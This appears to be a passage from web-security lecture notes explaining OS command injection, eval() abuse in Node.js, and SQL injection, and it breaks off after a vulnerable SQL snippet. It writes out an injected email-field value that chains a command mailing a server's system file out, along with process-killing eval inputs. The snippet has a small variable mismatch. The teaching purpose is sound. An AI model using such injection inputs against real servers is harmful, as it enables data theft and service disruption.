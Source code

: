 **Injection attacks** exploit the fact that input is interpreted by the server without any checks. A malicious user can create input that leads to unintended command executions on the server.

Input for injection attacks can be created via:

- parameter manipulation of HTML forms (e.g. input fields are filled with JavaScript code);
- URL parameter manipulation;
- HTTP header manipulation;
- hidden form field manipulation;
- cookie manipulation.

Injection attacks on the server can take multiple forms, we first consider **OS command injection**:

![OS command injection](../img/security-os-command-injection.png)

<sup>OS command injection.</sup>

:point_up: Here, we have a web portal that allows a user to sign up to a newsletter. The form looks simple enough: one `<input type="text">` element and a `<button>` to submit the form. On the server-side, a bash script takes a fixed confirmation string (stored in file `confirm`) and sends an email to the email address as stated in the user's input (*Thank you for signing up for our mailing list.*). This setup of course assumes, that the user actually used an email address as input. Let's look at benign and malicious user input:

- The benign input `john@test.nl` leads to the following OS command: `cat confirm|mail john@test.nl`. This command line is indeed sufficient to send an email, as Linux has a command line [mail](https://linux.die.net/man/1/mail) tool.
- An example of malicious input is the following: `john@test.nl; cat /etc/password | mail john@test.nl`. If the input is not checked, the server-side command line will look as follows: `cat confirm | mail john@test.nl; cat /etc/password | mail john@test.nl`. Now, two emails are sent: the confirmation email and a mail sending the server's file `/etc/password` to `john@test.nl`. This is clearly _unintended code execution_.

The main issue here is the lack of **input validation**. It should not be assumed that any input is the desired/wanted input, this has to be validated.

Lets look at another instance of an injection attack. Imagine a calculator web application that allows a client to provide a formula, which is sent to the server, evaluated on the server inside a Node.js script, and the final result is sent back to the client. JavaScript offers an [`eval()`](https://developer.mozilla.org/en-US/docs/Web/JavaScript/Reference/Global_Objects/eval) function that takes a string representing JavaScript code and runs it, e.g. the string `100*4+2` can be evaluated with `eval('100*4+2')`, resulting in `402`. However, a malicious user can also try to input `while(1)` or [`process.exit()`](https://nodejs.org/api/process.html#process_process_exit_code); the former leads the Node.js event loop to be stuck forever in the while loop, while the latter instructs Node.js to terminate the running process.

`eval()` in fact is so dangerous that [it should never be used](https://developer.mozilla.org/en-US/docs/Web/JavaScript/Reference/Global_Objects/eval#Do_not_ever_use_eval!).

Lastly, lets consider **SQL injection** attacks. They are a regular occurrence when input is not validated (we will repeat the input-validation-mantra a few more times throughout this lecture). Consider this example code snippet below :point_down::

```javascript
let n = /* code to retrieve user provided name */
let p = /* code to retrieve user provided password */

/* a database table 'users' holds our user data */
let sqlQuery = "select * from users where name = '"+u+"' and password = '" + p + "'";
/* execute query */
```
